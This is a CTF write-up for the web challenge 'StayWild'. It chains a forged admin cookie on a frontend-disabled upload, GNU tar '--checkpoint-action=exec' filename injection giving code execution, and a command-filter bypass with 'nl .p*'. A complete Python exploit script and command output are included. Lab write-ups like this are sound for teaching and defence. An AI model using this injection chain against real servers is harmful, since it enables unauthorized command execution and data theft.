




# StayWild - OmniCTF 2026 Quals

**Category:** Web  
**Points:** 67  
**Solves:** 154  
**Author:** k0d  
**Team:** antiskill (#2 overall, 2nd solve on this chall)

> We placed **2nd overall** in OmniCTF 2026 Quals. This was one of the challenges we blooded early — second solve, just 7 minutes after first blood.



---

## TL;DR

Express + nginx wildlife archive app. Upload a `.tar`, get a workspace. The "additional files" upload button is disabled on the frontend but the backend doesn't enforce it. The additional extraction pass feeds workspace filenames straight into a `tar` command as CLI arguments. Craft files named `--checkpoint=1` and `--checkpoint-action=exec=<cmd>`, and you've got RCE. A command filter blocks the obvious reads (`cat`, `grep`, literal `/` paths), but `nl` with a shell wildcard reads a hidden symlink to the flag.

---

## Recon

Hitting the app, first thing you notice is a `role=visitor` cookie getting set. Standard Express on nginx. There's a `/staging` endpoint that accepts `.tar` uploads — you upload a tar, it extracts it into a workspace, gives you a workspace ID.

The workspace page has three buttons:
- Download files (disabled, "Soon")
- **Upload additional files** (disabled, "Soon") 
- Delete workspace

That middle button caught my eye immediately. Disabled on the frontend with the `disabled` attribute and an `is-disabled` CSS class. But... is it actually enforced server-side?



Spoiler: it was not.

---

## Step 1 — Bypass the Frontend Disable

The form points to `POST /additional/<workspace>` with `enctype="multipart/form-data"`. The frontend just has `disabled` on the input and button. No server-side role check beyond a cookie value.

So you just... send the request yourself with `Cookie: role=admin`:

```bash
curl -sk -b "role=admin" \
  -F "file=@extra.tar" \
  https://staywild-XXXXX.inst.omnictf.com/additional/<workspace_id>
```

And it works. The server happily accepts it and runs a second extraction pass.

---

## Step 2 — Understanding the Extraction Flow

This is where it gets interesting. Looking at the extraction logs on the workspace page, you can see what happens:

```
[extraction 1] initial archive pass
myfile.txt

[extraction 2] additional extraction pass
myfile.txt                              <-- workspace filenames used as tar args
tar: archive.tar: Not found in archive
tar: extra.tar: Not found in archive

[additional archive: extra.tar]
newfile.txt
```

See that? During `extraction 2`, the server runs something like:

```bash
tar xf archive.tar <...all workspace filenames...>
```

Every filename sitting in the workspace directory gets passed as a CLI argument to `tar`. If we can control those filenames... we control the tar command line.

---

## Step 3 — GNU tar Checkpoint Injection

GNU tar has these lovely options:

- `--checkpoint=N` — trigger a checkpoint action every N records
- `--checkpoint-action=exec=CMD` — execute CMD at each checkpoint

This is a classic wildcard injection technique (see the [Unix Wildcards Gone Wild](https://www.exploit-db.com/papers/33930) paper). If files in a directory are named `--checkpoint=1` and `--checkpoint-action=exec=whoami`, and someone runs `tar` with a wildcard expansion over that directory, those filenames become CLI flags.

The catch here: the initial `/staging` upload **rejects** tars containing files with `--` prefixes. Server-side validation. So you can't just upload a malicious tar directly to `/staging`.

But `/additional` doesn't have that restriction.



---

## Step 4 — The Double Upload Trick

Here's the key insight that took a minute to figure out:

1. The checkpoint-named files need to be **in the workspace** before the extraction pass runs
2. The initial upload validates filenames (rejects `--` prefixes)
3. The additional upload does NOT validate filenames
4. But extraction 2 uses workspace filenames that exist BEFORE the additional tar is extracted

So the timeline for a single additional upload is:
```
extraction 2 runs → uses current workspace files as args → THEN additional tar extracted
```

The `--checkpoint` files only appear AFTER extraction 2. They're too late.

**Solution: upload additional files TWICE.**

```
1st additional upload:
  → extraction 2 runs (no injected args yet)
  → additional tar extracted → --checkpoint files now in workspace

2nd additional upload:  
  → extraction 3 runs → picks up --checkpoint files as tar args → RCE!
```

This was probably the trickiest part of the whole challenge — understanding the extraction timing.

---

## Step 5 — Command Filter Bypass

We've got RCE, but there's a filter. These are blocked:
- `cat`, `grep`, `python3` (common read commands)
- Literal `/` in paths

So `cat /opt/wild/.cache/seed-574` is a no-go.

But `nl` (number lines) isn't blocked. And shell wildcards aren't filtered either.

There's a hidden symlink in the workspace:

```
.paw -> /opt/wild/.cache/seed-574
```

So:

```
nl .p*
```

The `*` glob expands to `.paw`, which follows the symlink to the flag file. No literal `/` needed, no blocked commands used.



---

## Step 6 — Putting It All Together

Here's the final exploit flow:

```python
import requests, tarfile, io

BASE = "https://staywild-XXXXX.inst.omnictf.com"
s = requests.Session()
s.verify = False

def make_tar(files):
    buf = io.BytesIO()
    with tarfile.open(fileobj=buf, mode='w') as tf:
        for name, data in files.items():
            info = tarfile.TarInfo(name=name)
            info.size = len(data)
            tf.addfile(info, io.BytesIO(data.encode()))
    buf.seek(0)
    return buf

# 1. Upload normal initial tar
r = s.post(f"{BASE}/staging",
    files={"file": ("archive.tar", make_tar({"d.txt": "x"}), "application/x-tar")},
    allow_redirects=False)
ws = r.headers["Location"].split("/")[-1]

# 2. First additional — plant checkpoint files in workspace
s.post(f"{BASE}/additional/{ws}",
    files={"file": ("extra.tar", make_tar({
        "t.txt": "x",
        "--checkpoint=1": "",
        "--checkpoint-action=exec=nl .p*": "",
    }), "application/x-tar")},
    cookies={"role": "admin"})

# 3. Second additional — triggers extraction 3 with checkpoint args → RCE
s.post(f"{BASE}/additional/{ws}",
    files={"file": ("extra.tar", make_tar({"t2.txt": "x"}), "application/x-tar")},
    cookies={"role": "admin"})

# 4. Read the flag from extraction logs
r = s.get(f"{BASE}/staging/{ws}", cookies={"role": "admin"})
print(r.text)
```

The extraction logs for the third pass show:

```
[extraction 3] additional extraction pass
     1  b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==
```

Base64 decode:

```
$ echo 'b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==' | base64 -d
omniCTF{w1ldc4rds_can_g3t_w1ld}
```

---

## Flag

```
omniCTF{w1ldc4rds_can_g3t_w1ld}
```

---

## Takeaways

- **Never trust client-side disables.** A `disabled` attribute is a UI hint, not a security control. If the backend accepts the request, the button might as well be enabled.
- **GNU tar checkpoint injection** is a well-known technique, but it still shows up in CTFs because people forget that filenames can be CLI arguments when passed through shell expansion or directory listing.
- **Command filters are hard.** Blocking `cat` and `grep` doesn't help when `nl`, `head`, `tac`, `sort`, `paste`, `rev`, `od`, `xxd`, `base32`, and a dozen other coreutils can read files just fine. And shell wildcards completely sidestep path-based filters.
- **The double-upload trick** was the non-obvious part here. The timing of when workspace files become tar arguments vs when they're extracted matters. You need to plant the files first, then trigger a new extraction pass that picks them up.

Good challenge by k0d. The layering of frontend bypass -> tar injection -> command filter bypass made it feel like a proper exploit chain rather than a single-trick pony.

---

*antiskill | OmniCTF 2026 Quals — 2nd place overall*
